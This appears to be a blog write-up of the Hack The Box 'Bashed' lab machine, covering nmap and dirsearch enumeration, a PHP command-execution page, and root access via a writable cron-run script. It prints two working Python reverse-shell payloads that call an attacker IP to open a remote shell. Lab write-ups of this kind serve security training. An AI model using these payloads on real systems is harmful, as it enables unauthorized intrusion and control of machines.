 ```yaml
---
title: Bashed
author: siresire
date: 2024-03-01 22:10:00 +0800
categories: [Hackthebox, Linux, easy]
tags: [php,python]
render_with_liquid: false
---
```



## Enumerations 

### Nmap scan

```yaml
 nmap -vv -sV -A -oN nmap.scan -T4 10.10.10.68
```

When I performed an nmap scan, I discovered that only port 80 was open among those under 10000.


```bash
Nmap scan report for 10.10.10.68
Host is up, received echo-reply ttl 63 (0.17s latency).
Scanned at 2024-03-12 09:59:50 EAT for 33s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Enumerating port 80 

```bash
──(root㉿kali)-[/home/…/CTFs/HackTheBox/oscp/Bashed]
└─# dirsearch -u  http://10.10.10.68 --exclude-status 403,404 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/sire/Documents/CTFs/HackTheBox/oscp/Bashed/reports/http_10.10.10.68/_24-03-12_10-04-51.txt

Target: http://10.10.10.68/

[10:04:51] Starting: 
[10:04:55] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[10:04:55] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[10:05:12] 200 -    2KB - /about.html
[10:05:42] 200 -    0B  - /config.php
[10:05:44] 200 -    2KB - /contact.html
[10:05:46] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[10:05:48] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[10:05:48] 200 -  479B  - /dev/
[10:05:54] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[10:05:58] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[10:05:58] 200 -  513B  - /images/
[10:06:01] 200 -  660B  - /js/
[10:06:15] 200 -  454B  - /php/
[10:06:37] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[10:06:37] 200 -   14B  - /uploads/

Task Completed
```
 Found a php command execusion on `/dev`
![Alt text](/assets/img/htb/OSCP/Bashed/bash_1.png)


set up a listener in my machine and using python3 I got a call back

```yaml
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.11",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

I discovered that you can run scriptmanager without needing a sudo password.

![Alt text](/assets/img/htb/OSCP/Bashed/bash_2.png)

## TO ROOT

I tried finding the file ownership of scriptmanager

```yaml
scriptmanager@bashed:/$ find / -type f -user scriptmanager -perm /u=w 2>/dev/null
/scripts/test.py
.....
.....
.....
```

looking at the dates, the script automatically executes itself and writes to the "test.txt" file every two minutes.

![Alt text](/assets/img/htb/OSCP/Bashed/bash_3.png)

I replaced `test.py` with another Python script that enabled me to obtain a reverse shell.

```bash
scriptmanager@bashed:/scripts$ cat test.py 
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

```


![Alt text](/assets/img/htb/OSCP/Bashed/bash_4.png)